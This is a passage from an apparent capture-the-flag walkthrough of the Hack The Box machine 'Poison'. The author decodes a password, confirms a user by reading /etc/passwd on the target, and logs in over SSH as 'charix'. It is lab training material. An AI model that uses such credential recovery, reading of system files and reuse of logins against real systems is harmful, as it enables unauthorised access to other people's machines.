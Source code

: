 I decoded it with cyberchef, and the decoded password is : `Charix!2#4%6&8(0`
Given the `charix` at the front, I guessed that it might be the password for user named `charix`.
Let me check it with fetching `/etc/passwd`.

![](attachments/poison_6.png)

It is! There's a user `charix` on the system.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ED25519 key fingerprint is SHA256:ai75ITo2ASaXyYZVscbEWVbDkh/ev+ClcQsgC6xmlrA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ED25519) to the list of known hosts.
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to do a search in a manpage or in a file you've sent to a pager? Use
"/search_word". To repeat the same search, type "n" for next.
                -- Dru <genesis@istar.ca>
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```
